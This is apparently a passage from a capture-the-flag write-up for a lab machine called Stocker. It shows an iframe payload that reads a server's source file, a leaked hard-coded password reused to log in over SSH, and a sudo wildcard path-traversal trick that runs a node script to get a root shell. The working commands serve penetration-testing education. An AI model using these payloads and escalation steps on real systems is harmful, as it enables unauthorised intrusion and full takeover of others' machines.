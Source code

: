 ```json
  "license": "ISC",
  "dependencies": {
    "connect-mongo": "^4.6.0",
    "express": "^4.18.2",
    "express-session": "^1.17.3",
    "md5": "^2.3.0",
    "mongoose": "^6.7.5",
    "puppeteer": "^19.3.0"
  },
  "devDependencies": {
    "nodemon": "^2.0.20"
  }
}
```

The response refers to the main application file at `./index.js`{:.filepath}. Let's read that too.

```html
<iframe width=1000px height=1000px src=file:///proc/self/cwd/index.js></iframe>
```
{:.nolineno}

The file contains a hard-coded password for the MongoDB server: **IHeardPassphrasesArePrettySecure**. This also happens to be the password for the local user **angoose** which we can use via SSH.

```bash
# bryan@red_team (bash)
ssh "angoose@$rhost"
```
{:.nolineno}

## Local Privilege Escalation

We find that our current user has restricted sudo privileges with the `sudo -l` command.

>
```
User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

The use of a wildcard in this exception can be abused to run a node app outside of `/usr/local/scripts`{:.filepath}, perhaps in a writable directory like `/tmp`{:.filepath}. We'll use the directory traversal sequence `../`{:.filepath} to run a file under our control while still matching the regex in the sudo rule.

```bash
# angoose@stocker (bash)
tf=$(mktemp --suffix=.js)
echo 'require("child_process").spawn("sh",["-pi"],{stdio:"inherit"})' > $tf
sudo /usr/bin/node /usr/local/scripts/../../..$tf && rm -rf $tf
```
{:.nolineno}

This gets us an unrestricted system shell!